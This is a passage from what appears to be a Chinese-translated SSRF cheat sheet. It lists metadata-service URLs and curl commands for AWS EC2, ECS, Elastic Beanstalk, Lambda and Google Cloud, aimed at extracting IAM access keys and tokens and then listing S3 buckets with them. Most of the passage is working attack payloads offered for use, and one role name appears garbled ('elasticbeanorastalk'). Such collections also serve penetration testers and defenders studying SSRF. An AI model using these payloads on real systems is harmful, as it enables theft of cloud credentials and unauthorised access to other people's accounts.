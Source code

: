 例如：Jira SSRF导致AWS信息泄露 - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

例如2：Flaws挑战 - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

### AWS ECS的SSRF URL

如果您在ECS实例上拥有带文件系统访问权限的SSRF，请尝试提取`/proc/self/environ`以获取UUID。

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

通过这种方式，您将提取附加角色的IAM密钥

### AWS Elastic Beanstalk的SSRF URL

我们从API检索`accountId`和`region`。

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

然后我们从API检索`AccessKeyId`、`SecretAccessKey`和`Token`。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

![notsosecureblog-awskey](https://www.notsosecure.com/wp-content/uploads/2019/02/aws-cli.jpg)

然后我们使用凭据与`aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`。

### AWS Lambda的SSRF URL

AWS Lambda提供了一个HTTP API，供自定义运行时在Lambda执行环境内接收调用事件并发送响应数据。

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

文档：<https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next>

### Google Cloud的SSRF URL

警告：Google将于1月15日停止支持**v1元数据服务**的使用。

需要"Metadata-Flavor: Google"或"X-Google-Metadata-Request: True"头

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

